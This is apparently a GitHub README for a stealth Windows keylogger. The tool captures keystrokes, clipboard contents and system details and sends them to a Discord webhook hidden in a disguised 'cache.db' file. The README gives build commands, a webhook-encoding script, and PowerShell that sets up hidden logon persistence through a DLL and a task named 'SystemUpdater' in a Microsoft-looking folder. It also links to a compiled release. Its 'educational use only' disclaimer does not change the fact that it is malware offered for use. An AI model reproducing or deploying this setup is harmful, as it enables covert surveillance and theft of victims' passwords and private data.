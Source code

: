# 🛡️ Keylogger – Installer-based Setup

A fully featured and installer-driven keylogger written in Python and C++.  
It captures keystrokes, clipboard changes, system information, and sends the data securely to a hidden Discord webhook.  
Includes a one-click installer, automatic webhook encoding, and stealth autostart via DLL and Task Scheduler.

---

## ✅ Features

- ⌨️ Logs all keystrokes with modifier support (e.g., `CTRL + C`)
- 📋 Detects clipboard changes and sends content in real time
- 💻 Collects system information (hostname, user, IPs, OS)
- 🔁 Sends data periodically via Discord webhook
- 🔒 Webhook hidden using Base64 encoding in a disguised config file
- 🧩 One-click setup via GUI installer
- 🎭 Stealth autostart using `update.dll` + Task Scheduler
- 🫥 Runs silently with no visible windows
- 🛠️ Compatible with both development and compiled environments

---

## 📦 Installer Structure (v1.0 Release)

| File / Folder                        | Description                                                                 |
| ----------------------------------- | --------------------------------------------------------------------------- |
| `installer.exe`                     | One-click installer GUI – encodes webhook and sets up everything            |
| `systemupdater.exe`                 | Keylogger binary (compiled from `systemupdater.py`)                         |
| `update.dll`                        | DLL that loads the keylogger at login using `rundll32.exe`                 |
| `cache.db`                          | Contains the encoded Discord webhook (Base64)                               |
| `README.txt`                        | Offline readme for users                                                    |
| `LICENSE.txt`                       | MIT License                                                                 |
| `Source_Code/installer.py`         | Python source for installer GUI                                             |
| `Source_Code/systemupdater.py`     | Main keylogger logic (keystrokes, clipboard, system info)                   |
| `Source_Code/Base64_webhook_encoder.py` | Optional CLI tool to encode webhook manually                         |
| `Source_Code/startloader.cpp`      | Source code for DLL that triggers the EXE                                   |
| `Source_Code/icon.ico`             | Optional icon used for builds                                               |

---

## ⚙️ Compilation Instructions

### 🧪 Keylogger Binary (systemupdater.exe)

```bash
pyinstaller --onefile --noconsole --icon="icon.ico" systemupdater.py
```

### 🧪 Installer Binary (installer.exe)

```bash
pyinstaller --onefile --noconsole --icon="icon.ico" installer.py
```

### 🧪 DLL (update.dll)

```bash
g++ -shared -o update.dll startloader.cpp -Wl,--add-stdcall-alias
```

> The exported function **must** be named `MyFunction` for compatibility with `rundll32.exe`.

---

## 🔐 Webhook Handling

To hide the Discord webhook URL, it is encoded via Base64 and saved to `cache.db`.  
The installer does this automatically, or you can use the manual tool:

### Manual Encoder (Base64_webhook_encoder.py)

```python
import base64
import os
import sys
import msvcrt

webhook = input("Enter your Discord webhook URL: ").strip()
if not webhook.startswith("http"):
    print("❌ Invalid webhook URL!")
    print("Press any key to exit...")
    msvcrt.getch()
    sys.exit(1)

encoded = base64.b64encode(webhook.encode()).decode()
base_dir = os.path.dirname(sys.executable if getattr(sys, 'frozen', False) else __file__)
full_path = os.path.join(base_dir, "cache.db")

try:
    with open(full_path, "w", encoding="utf-8") as f:
        f.write(encoded)
    print(f"✅ Webhook saved to: {full_path}")
except Exception as e:
    print(f"❌ Failed to save: {e}")

print("Done. Press any key to close...")
msvcrt.getch()
```

---

## 🚀 Autostart via Task Scheduler

The DLL is silently triggered at each user logon.

### ▶ Add Startup Task

```powershell
$Action = New-ScheduledTaskAction -Execute "rundll32.exe" -Argument '"C:\ProgramData\Microsoft\CacheSync\update.dll",MyFunction'
$Trigger = New-ScheduledTaskTrigger -AtLogOn
$Principal = New-ScheduledTaskPrincipal -GroupId "Users" -RunLevel Limited
Register-ScheduledTask -TaskName "SystemUpdater" -Action $Action -Trigger $Trigger -Principal $Principal
```

### ❌ Remove Startup Task

```powershell
Unregister-ScheduledTask -TaskName "SystemUpdater" -Confirm:$false
```

---

## 🧠 How the Installer Works

1. **Run `installer.exe`**
   - Prompts for webhook
   - Encodes to `cache.db`

2. **Installs binaries** to:  
   `C:\ProgramData\Microsoft\CacheSync\`

3. **Registers Task Scheduler autostart**
   - Uses `rundll32.exe` to execute `update.dll` on logon

---

## 📥 Download

The latest compiled release (including EXE, DLL, full source code) is available here:  
🔗 [Latest Release →](https://github.com/mrpanda-bamboo/keylogger/releases/latest)

---

## 📜 License

This project is licensed under the **MIT License**.  
See the [LICENSE](./LICENSE) file for full terms.

---

## 🚨 Disclaimer

> This software is intended for **educational, research, and ethical testing purposes only**.  
> **Do not** use this tool on systems you do not own or have explicit permission to monitor.  
> Misuse of this software can violate privacy laws and may be considered illegal in many countries.  
> The author takes **no responsibility** for misuse or damage caused.

